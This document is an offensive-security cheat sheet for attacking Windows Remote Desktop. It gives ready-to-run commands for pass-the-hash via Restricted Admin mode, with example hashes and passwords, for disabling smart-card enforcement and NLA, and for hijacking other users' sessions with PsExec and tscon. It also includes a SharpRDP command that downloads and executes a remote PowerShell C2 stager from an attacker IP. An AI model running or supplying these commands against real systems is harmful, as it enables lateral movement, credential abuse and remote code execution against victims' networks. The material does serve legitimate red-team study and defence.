 ```yaml
---
description: Remote Desktop Protocol
---
```


# RDP

* [https://syfuhs.net/how-authentication-works-when-you-use-remote-desktop](https://syfuhs.net/how-authentication-works-when-you-use-remote-desktop)
* [https://posts.specterops.io/revisiting-remote-desktop-lateral-movement-8fb905cb46c3](https://posts.specterops.io/revisiting-remote-desktop-lateral-movement-8fb905cb46c3)




## Enable RDP

With meterpreter:

```
meterpreter > run getgui -e
```

With PowerShell:

```
PS > Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
PS > Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
PS > Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" -Name "UserAuthentication" -Value 1
```

Manually add firewall rule (if necessary):

```
Cmd > netsh advfirewall firewall add rule name="Allow Remote Desktop" dir=in protocol=TCP localport=3389 action=allow
PS > New-NetFirewallRule -DisplayName 'Allow Remote Desktop' -Profile @('Domain', 'Private') -Direction Inbound -Action Allow -Protocol TCP -LocalPort @('3389')
```




## Restricted Admin

* [https://www.kali.org/penetration-testing/passing-hash-remote-desktop/](https://www.kali.org/penetration-testing/passing-hash-remote-desktop/)
* [https://blog.ahasayen.com/restricted-admin-mode-for-rdp/](https://blog.ahasayen.com/restricted-admin-mode-for-rdp/)
* [https://labs.f-secure.com/blog/undisable/](https://labs.f-secure.com/blog/undisable/)
* [https://shellz.club/pass-the-hash-with-rdp-in-2019/](https://shellz.club/pass-the-hash-with-rdp-in-2019/)
* [https://github.com/GhostPack/RestrictedAdmin](https://github.com/GhostPack/RestrictedAdmin)
* [https://www.pentestpartners.com/security-blog/abusing-rdps-remote-credential-guard-with-rubeus-ptt/](https://www.pentestpartners.com/security-blog/abusing-rdps-remote-credential-guard-with-rubeus-ptt/)

RDP with [PtH](http://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/): RDP needs a plaintext password unless Restricted Admin mode is enabled.

Check / enable / disable with PowerShell:

```
PS > Get-ChildItem "HKLM:\System\CurrentControlSet\Control\Lsa" -Recurse
PS > Get-Item "HKLM:\System\CurrentControlSet\Control\Lsa"
PS > New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value 0 -PropertyType "DWORD"
PS > Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin"
PS > Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value 1
PS > Remove-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin"
```

Check / enable / disable with impacket:

```
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 query -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -s
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin -vt REG_DWORD -vd 0
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 query -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin -vt REG_DWORD -vd 1
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 delete -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin
```

Enable with CME:

```
$ cme smb 192.168.1.11 -u Administrator -H fc525c9683e8fe067095ba2ddc971889 -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

Use:

```
$ xfreerdp /pth ...
Cmd > mstsc.exe /restrictedAdmin
```




## Smart Card Authentication

Disable enforced smart card authentication during interactive logon:

```
PS > Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\policies\System" -Name "scforceoption"
PS > Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\policies\System" -Name "scforceoption" -Value 0
```



### Emulating PIV

- [https://www.pentestpartners.com/security-blog/living-off-the-land-ad-cs-style/](https://www.pentestpartners.com/security-blog/living-off-the-land-ad-cs-style/)
- [https://github.com/CCob/PIVert](https://github.com/CCob/PIVert)
- [https://twitter.com/an0n_r0/status/1560699385545195521](https://twitter.com/an0n_r0/status/1560699385545195521)
- [https://twitter.com/snovvcrash/status/1561020682242326528](https://twitter.com/snovvcrash/status/1561020682242326528)




## NLA

Disable NLA:

```
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
```




## Hijack RDP Sessions

- [http://www.korznikov.com/2017/03/0-day-or-feature-privilege-escalation.html](http://www.korznikov.com/2017/03/0-day-or-feature-privilege-escalation.html)
- [https://www.ired.team/offensive-security/lateral-movement/t1076-rdp-hijacking-for-lateral-movement](https://www.ired.team/offensive-security/lateral-movement/t1076-rdp-hijacking-for-lateral-movement)
- [https://qtechbabble.wordpress.com/2017/04/07/use-quser-to-view-which-accounts-are-logged-inremoted-in-to-a-computer/](https://qtechbabble.wordpress.com/2017/04/07/use-quser-to-view-which-accounts-are-logged-inremoted-in-to-a-computer/)

Run Task manager as LocalSystem to hijack other users' sessions:

```
PS > .\PsExec64.exe -si C:\Windows\System32\Taskmgr.exe -accepteula
```

The same can be achieved with `tscon.exe`:

```
PS > .\PsExec64.exe -s \\localhost cmd
PS > quser.exe
PS > cmd /k tscon.exe <ID> /dest:<CURRENT_SESSIONNAME>
```



### Tools

- [https://github.com/fortra/impacket/blob/master/examples/tstool.py](https://github.com/fortra/impacket/blob/master/examples/tstool.py)
- [https://github.com/netero1010/RDPHijack-BOF](https://github.com/netero1010/RDPHijack-BOF)




## Tools



### SharpRDP

- [https://github.com/0xthirteen/SharpRDP](https://github.com/0xthirteen/SharpRDP)
- [https://github.com/S3cur3Th1sSh1t/SharpRDP](https://github.com/S3cur3Th1sSh1t/SharpRDP)

```
Cmd > .\SharpRDP.exe computername=srv01 command="iex(new-object net.webclient).downloadstring('http://10.10.13.37:8080/grunt.ps1')" username=megacorp\snovvcrash password=Passw0rd!
```



### SharpRDPHijack

- [https://github.com/bohops/SharpRDPHijack](https://github.com/bohops/SharpRDPHijack)



### TakeMyRDP

- [https://github.com/TheD1rkMtr/TakeMyRDP](https://github.com/TheD1rkMtr/TakeMyRDP)
- [https://github.com/nocerainfosec/TakeMyRDP2.0](https://github.com/nocerainfosec/TakeMyRDP2.0)
